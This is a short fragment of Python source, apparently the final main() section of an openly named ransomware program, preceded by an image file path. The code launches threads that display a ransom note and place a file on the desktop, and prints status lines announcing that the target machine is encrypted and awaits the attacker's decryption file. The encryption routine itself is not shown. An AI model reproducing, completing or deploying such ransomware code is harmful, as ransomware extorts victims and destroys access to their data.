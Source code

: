 ```python

    t1 = threading.Thread(target=rw.show_ransom_note)
    t2 = threading.Thread(target=rw.put_me_on_desktop)

    t1.start()
    print('> RansomWare: Attack completed on target machine and system is encrypted') # Debugging/Testing
    print('> RansomWare: Waiting for attacker to give target machine document that will un-encrypt machine') # Debugging/Testing
    t2.start()
    print('> RansomWare: Target machine has been un-encrypted') # Debugging/Testing
    print('> RansomWare: Completed') # Debugging/Testing



if __name__ == '__main__':
    main()
```
